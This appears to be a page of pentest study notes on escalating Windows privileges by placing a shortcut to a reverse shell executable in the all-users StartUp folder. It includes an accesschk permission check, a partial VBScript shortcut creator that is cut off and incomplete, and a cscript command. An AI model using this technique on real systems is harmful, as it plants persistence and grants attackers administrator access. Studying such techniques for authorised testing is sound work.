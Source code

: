 # Startup Apps

Each user can define apps that start when they log in, by placing shortcuts to them in a specific directory. Windows also has a startup directory for apps that should start for all users:

```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

If we can create files in this directory, we can use our reverse shell executable and escalate privileges when an admin logs in.

{% hint style="info" %}
Note that shortcut files (.lnk) must be used. The following VBScript can be used:
{% endhint %}

```
to create a shortcut file:
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start
Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.Target
```

#### reverse.lnk is our reverse shell executable.

![](<../../../.gitbook/assets/image (158).png>)

Use accesschk.exe to check permissions on the StartUp directory:

```
\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

![](<../../../.gitbook/assets/image (157) (1).png>)

Note that the BUILTIN\Users group has write access to this directory.

Create a file CreateShortcut.vbs with the VBScript provided in a previous slide. Change file paths if necessary.

![](<../../../.gitbook/assets/image (161) (1).png>)

Run the script using cscript:

```
cscript CreateShortcut.vbs
```

![](<../../../.gitbook/assets/image (162).png>)

no we wait for the admin to login:

![](<../../../.gitbook/assets/image (156) (1).png>)
